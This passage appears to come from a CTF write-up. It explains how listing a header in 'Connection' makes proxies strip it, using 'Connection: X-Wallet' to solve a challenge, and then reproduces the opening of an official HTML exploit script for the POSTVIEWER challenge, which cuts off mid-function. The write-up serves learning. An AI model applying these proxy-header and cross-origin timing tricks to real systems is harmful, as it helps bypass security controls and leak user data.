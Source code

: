 The following are all hop-by-hop headers:

1. Connection
2. Keep-Alive
3. Proxy-Authenticate
4. Proxy-Authorization
5. TE
6. Trailers
7. Transfer-Encoding
8. Upgrade

In addition, according to the spec, headers placed in `Connection` should also be treated as hop-by-hop. For example:

```
Connection: close, X-Foo, X-Bar
```

This tells the proxy to treat X-Foo and X-Bar as hop-by-hop headers and remove them, not to send them to the next proxy.

Therefore, for this question, we can use this feature to remove `X-Wallet`:

```
Connection: X-Wallet
```

For more related research, please refer to this article: https://nathandavison.com/blog/abusing-http-hop-by-hop-request-headers

## POSTVIEWER Script Backup

Here is the official answer script backup. It seems to use postMessage + onmessage to achieve the effect of an asynchronous infinite loop, which is quite interesting.

``` html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="utf-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1" />
    <title>POC Vulnerable website</title>
</head>
<body>
    <h1>Click me!</h1>
    <iframe style="width:1px;height:1px" name="loop"></iframe>
    <pre id="log"></pre>
    <script>
        const URL = 'https://postviewer-web.2022.ctfcompetition.com';
        const sleep = (d) => new Promise((r) => setTimeout(r, d));
        function notify(...args){
            navigator.sendBeacon('', args);
            console.log(...args);
        }
        async function load(win, url) {
            const buffer = new Uint8Array(1e7);
            win.location = 'about:blank';
            await new Promise((resolve) => {
                loop.onmessage = () => {
                    try {
                        win.origin;
                        resolve();
                    } catch (e) {
                        loop.postMessage(null);
                    }
                };
                loop.postMessage(null);
            });
```